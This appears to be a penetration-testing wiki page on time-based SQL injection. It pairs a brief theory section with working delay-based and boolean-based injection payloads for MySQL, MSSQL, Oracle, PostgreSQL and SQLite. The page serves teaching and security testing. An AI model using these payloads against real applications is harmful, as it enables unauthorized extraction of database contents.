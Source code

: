 # Time Based

## Theory

Time-based SQL injection is a technique that relies on sending an SQL query to the database which forces the database to wait for a specified amount of time (in seconds) before responding. The response time will indicate to the attacker whether the result of the query is TRUE or FALSE.

## Practice

The process is relatively the same as [Boolean Based](boolean-based.md) injection. All you have to do is modify the payloads to force the database to wait.

{% tabs %}
{% tab title="MySQL" %}
A time-based SQLi payload in MySQL will look like this

```bash
1'; SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')-- -
```

Examples:

```bash
#Boolean Based  
1' AND (SELECT LENGTH(database()))=1-- -

#Time Based  
1'; SELECT IF((SELECT LENGTH(database()))=1,SLEEP(10),'a')-- -
```
{% endtab %}

{% tab title="MSSQL" %}
A time-based SQLi payload in MSSQL will look like this

```bash
1' IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'-- 
```

Examples:

```bash
#Boolean Based  
1' AND (SELECT LEN(DB_NAME()))=1--

#Time Based  
1' IF ((SELECT LEN(DB_NAME()))=1) WAITFOR DELAY '0:0:10'-- 
```
{% endtab %}

{% tab title="OracleSQL" %}
A time-based SQLi payload in OracleSQL will look like this

```bash
1' || (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual) ||'--
```

Examples:

```bash
#Boolean Based  
1' AND (SELECT LENGTH(global_name) FROM global_name)=1--

#Time Based  
1' || (SELECT CASE WHEN ((SELECT LENGTH(global_name) FROM global_name)=1) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual) ||'--
```
{% endtab %}

{% tab title="PostgreSQL" %}
A time-based SQLi payload in PostgreSQL will look like this

```bash
1'; SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```

Examples:

```bash
#Boolean Based  
1' AND (SELECT LENGTH(current_database()))=1--

#Time Based  
1'; SELECT CASE WHEN ((SELECT LENGTH(current_database()))=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```
{% endtab %}

{% tab title="SQLite" %}
A time-based SQLi payload in SQLite will look like this

```bash
1' AND CASE WHEN (YOUR-CONDITION-HERE) THEN 1 ELSE UPPER(HEX(RANDOMBLOB(1000000000/2))) END--
```

Examples:

```bash
#Boolean Based  
1' AND (SELECT HEX(SUBSTR(sql,1,1)) FROM sqlite_master WHERE type!='meta' and sql NOT NULL AND name='TABLE_NAME_HERE')=HEX('C')--

#Time Based  
1' AND CASE WHEN ((SELECT HEX(SUBSTR(sql,1,1)) FROM sqlite_master WHERE type!='meta' and sql NOT NULL AND name='TABLE_NAME_HERE')=HEX('C')) THEN 1 ELSE UPPER(HEX(RANDOMBLOB(1000000000/2))) END--
```
{% endtab %}
{% endtabs %}
